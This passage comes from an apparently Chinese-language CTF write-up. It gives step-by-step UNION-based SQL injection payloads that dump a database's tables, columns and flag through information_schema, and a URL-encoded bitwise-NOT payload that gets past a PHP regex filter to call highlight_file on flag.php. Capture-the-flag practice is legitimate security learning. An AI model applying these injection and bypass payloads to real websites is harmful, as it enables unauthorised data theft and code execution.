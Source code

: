 ![image-20241119154357857](D:\ctf wp\81-120.assets\image-20241119154357857.png)

改成1’后无回显  1‘--+有回显 那就是字符型![image-20241119154704350](D:\ctf wp\81-120.assets\image-20241119154704350.png)

![image-20241119155048720](D:\ctf wp\81-120.assets\image-20241119155048720.png)

1'order by 4--+ 开始无回显

![image-20241119155115600](D:\ctf wp\81-120.assets\image-20241119155115600.png)

-1' union select 1,2,3--+

![image-20241119155248043](D:\ctf wp\81-120.assets\image-20241119155248043.png)

-1'union select 1,2,database()--+ ![image-20241119155538252](D:\ctf wp\81-120.assets\image-20241119155538252.png)

-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='note'--+ ![image-20241119155655545](D:\ctf wp\81-120.assets\image-20241119155655545.png)

-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='fl4g'--+![image-20241119155744139](D:\ctf wp\81-120.assets\image-20241119155744139.png)

-1' union select 1,2,fllllag from note.fl4g--+![image-20241119160001120](D:\ctf wp\81-120.assets\image-20241119160001120.png)



![image-20241119163343096](D:\ctf wp\81-120.assets\image-20241119163343096.png)



## 84.hate_php（取反绕过）

![image-20241119164022914](D:\ctf wp\81-120.assets\image-20241119164022914.png)

第一个 过滤了(f|l|a|g|\.|p|h|\/|;|\"|\'|\`|\||\[|\]|\_|=)

第二个正则表达式过滤了PHP的内置函数

利用异或或者取反来绕过。

![image-20241119224132405](D:\ctf wp\81-120.assets\image-20241119224132405.png)

直接取反请求highlight_file(flag.php)

或者先system ls再cat flag.php

双重否?code=(~%97%96%98%97%93%96%98%97%8B%A0%99%96%93%9A)(~%99%93%9E%98%D1%8F%97%8F)

## 85.hate_php 2

![image-20241119230745191](D:\ctf wp\81-120.assets\image-20241119230745191.png)

上一题的绕过都不管用
